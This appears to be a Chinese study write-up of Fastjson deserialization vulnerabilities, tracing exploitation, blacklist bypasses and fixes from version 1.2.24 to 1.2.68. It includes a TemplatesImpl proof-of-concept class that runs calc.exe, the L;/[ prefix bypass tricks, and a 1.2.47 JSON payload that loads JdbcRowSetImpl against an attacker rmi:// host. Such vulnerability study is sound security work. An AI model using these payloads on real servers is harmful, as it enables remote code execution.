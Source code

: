 # Fastjson 漏洞总结
## 前言
本次将详细学习fastjson反序列化这个漏洞，从各个版本的利用原理，绕过方式，修复方式等详细进行学习
# 1.2.24
## 漏洞分析
在fastjson中，想要将json反序列化为一个对象，常用的函数为praseObject。而在这个函数中，有一个神奇的功能叫autotype，这个功能的利用方式为控制json的key，value，key为固定的"@type"，然后将value设置为你想要反序列化成为的类的全路径，那么fastjson就会将你的json反序列化成为@type指定的类。
造成安全漏洞的原因就在这里，这个方法并没有对类做任何的黑名单或白名单限制。并且praseObject方法可以调用指定类的getter和setter方法。
## 利用方式一
安全研究者们找到了这样一个类 
<b>com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl</b>
而这个类有一个字段就是_bytecodes，有部分函数会根据这个_bytecodes生成java实例，这就达到fastjson通过字段传入一个类，再通过这个类被生成时执行构造函数。
```java
private Translet getTransletInstance() throws TransformerConfigurationException { .............
if (_class == null) 
defineTransletClasses();//通过ClassLoader加载字节码，存储在_class数组中
AbstractTranslet translet = (AbstractTranslet)_class[_transletIndex].newInstance();//新建实例，触发构造函数
............
```
那么我们分析一下下面的一个poc
```java
package com.fastjson.demo;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class poc extends AbstractTranslet {

    public poc() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }

    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] haFndlers) throws TransletException {

    }

    public static void main(String[] args) throws Exception {
        poc t = new poc();
    }
}
```
可以看到我们的构造函数设置成为了弹出计算器，那么当这个类被base64编码后设置为_bytecode，然后经过praseObject反序列化为我们指定好的TemplatesImpl类，由于存在_bytecode字段，就会被部分函数实例化为一个类，执行类生成时会执行的构造函数，实现远程命令执行
## 利用方式二
jndi是一个Java命令和目录接口，举个例子，通过jndi进行数据库操作，无需知道它数据库是mysql还是mssql，还是MongoDB等，它会自动识别
jav还有一个接口叫rmi，rmi也可以通过jndi实现，rmi的作用相当于在服务器上创建了类的仓库的api，客户端只用带着参数去请求，服务器进行一系列处理后，把运算后的参数还回来。
利用的大致思路为：
攻击者在本地搭建一个rmi的服务器，上面挂上恶意的payload
让被攻击的目标反序列化特定的类，这个类最终会调用lookup()函数，导致jndi接口指向我们的rmi服务器上的恶意payload
## 漏洞修复
在1.2.25之后，在ParserConfig.java中添加了public Class<?> checkAutoType(String typeName, Class<?> expectClass)过滤的函数
![](/images/1/66/image-6e3fc097c9b149aaa55607050a56d049.png)
注意其中的这一段，如果类的名字开头在deny名单里面，就直接抛出错误了
同时，设置了autotype开关，对@type字段进行限制。如果autotype开关关闭，则无法从@type字段传入类，同时autotype默认关闭
# 1.2.41-1.2.44
这四个版本可以说是官方非常偷懒导致的安全问题了
## 1.2.41
在这个版本中，checkAutotype函数会先检查传入的@type的值是否是在黑名单里，如果要反序列化的类不在黑名单中，那么才会对其进行反序列化。问题在于，在反序列化前，会经过loadClass函数进行处理，其中一个处理方法是：在加载类的时候会去掉className前后的L和;，所以，假如我们传入的类是Lcom.sun.rowset.JdbcRowSetImpl;，那么经过处理就变成了com.sun.rowset.JdbcRowSetImpl，完成了恶意类的传入
## 1.2.42
这个版本，官方只是对上一个版本进行了偷懒的修复，就是先判断传入的类开头和结尾是否为L和;，如果是，那就先去掉在进行判断。所以这个版本的绕过那就更简单了，直接双写，就可以完成
## 1.2.43
这个版本的修复也可以说是非常随意了，对开头是否为LL或结尾是否为;;进行判断，如果是，则直接抛出异常，但是fastjson不只是对开头L进行处理，开头[也会，所以攻击者用[开头，就可以绕过之前的所有过滤
## 1.2.44
终于，开发者忍不了了，他们直接判断开头如果为[或者结尾如果为;，就直接抛出异常，解决了缠绵多个版本的问题
# 1.2.47
## 漏洞分析
首先，fastJson有一个全局缓存机制：在解析json数据前会先加载相关配置，调用addBaseClassMappings和loadClass函数将一些基础类和第三方库存放到mappings中（mappings是ConcurrentMap类，所以我们在一次连接中传入两个键值a和b）
之后在解析时，如果没有开启autotype，会从mappings或deserializers.findClass函数中获取反序列化的对应类，如果有，则直接返回，绕过了黑名单
我们主要利用的是java.lang.Class类，其反序列化处理类MiscCodec类可以将任意类加载到mappings中，实现了目标
poc
```
{	
	"a":{
		"@type":"java.lang.Class",
		"val": "com.sun.rowset.JdbcRowSetImpl"
	},
	"b":{
		"@type":"com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName":"rmi://xxx.xxx.xxx.xxx/exploit",
		"autoCommit":true
	}
}
```
## 漏洞修复
在fastjson1.2.48中，修复了这个bug，在MiscCodec中，处理Class类的地方，设置了fastjson cache为false，这样攻击类就不会被缓存了，也就不会被获取到了
# 1.2.68
## 漏洞利用
在fastjson中， 如果，@type 指定的类为 Throwable 的子类，那对应的反序列化处理类就会使用到 ThrowableDeserializer
而在ThrowableDeserializer#deserialze的方法中，当有一个字段的key也是 @type时，就会把这个 value 当做类名，然后进行一次 checkAutoType 检测。
并且指定了expectClass为Throwable.class，但是在checkAutoType中，有这样一约定，那就是如果指定了expectClass ，那么也会通过校验。
因为fastjson在反序列化的时候会尝试执行里面的getter方法，而Exception类中都有一个getMessage方法。
黑客只需要自定义一个异常，并且重写其getMessage就达到了攻击的目的。
## 漏洞修复
在1.2.69中被修复，主要修复方式是对于需要过滤掉的expectClass进行了修改，新增了4个新的类，并且将原来的Class类型的判断修改为hash的判断。
当然其实在1.2.68中，只要启用了safeMode，也可以规避这个漏洞
## safeMode
通过之前的分析可以看到，这些上述漏洞的利用几乎都是围绕AutoType来的，于是，在1.2.68版本中，引入了safeMode，配置safeMode后，无论白名单和黑名单，都不支持autoType，可一定程度上缓解反序列化Gadgets类变种攻击。
设置了safeMode后，@type 字段不再生效，即当解析形如{"@type": "com.java.class"}的JSON串时，将不再反序列化出对应的类。

参考链接：https://zhuanlan.zhihu.com/p/157211675?from_voters_page=true